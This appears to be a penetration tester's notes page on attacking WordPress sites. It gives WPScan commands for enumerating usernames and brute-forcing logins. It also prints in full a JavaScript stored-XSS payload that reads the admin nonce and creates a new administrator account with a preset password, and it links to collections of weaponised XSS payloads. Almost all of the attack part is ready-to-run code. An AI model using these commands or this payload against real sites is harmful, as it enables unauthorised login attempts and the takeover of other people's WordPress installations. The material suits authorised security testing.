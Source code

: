 # Wordpress

### WPScan

```bash
# Default enumeration
wpscan --url https://parzival.sh/ 

# Enumerate usernames
wpscan --url https://parzival.sh/ -e u 

# Bruteforce Wordpress
wpscan --url https://parzival.sh/ -U $usernamelist -P $passwordlist
```

{% embed url="https://github.com/wpscanteam/wpscan" %}

### Turning XSS to RCE

When identifying a Wordpress site that is vulnerable to cross-site scripting, there are some well documented payloads and resources out there which increase the severity if an Administrator were to trigger the payload. For example, if a stored cross-site scripting vulnerability affects a plugin. The following is a snippet of a Hakluke payload linked below which attempts to create a new administrator user:

```javascript
var wp_root = "" // don't add a trailing slash
var req = new XMLHttpRequest();
var url = wp_root + "/wp-admin/user-new.php";
var regex = /ser" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=hacker&email=hacker@example.com&pass1=AttackerP455&pass2=AttackerP455&role=administrator";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
```

{% embed url="https://ibreak.software/2016/07/xss-to-rce-using-wordpress-as-an-example/" %}

{% embed url="https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/" %}

{% embed url="https://github.com/hakluke/weaponised-XSS-payloads" %}
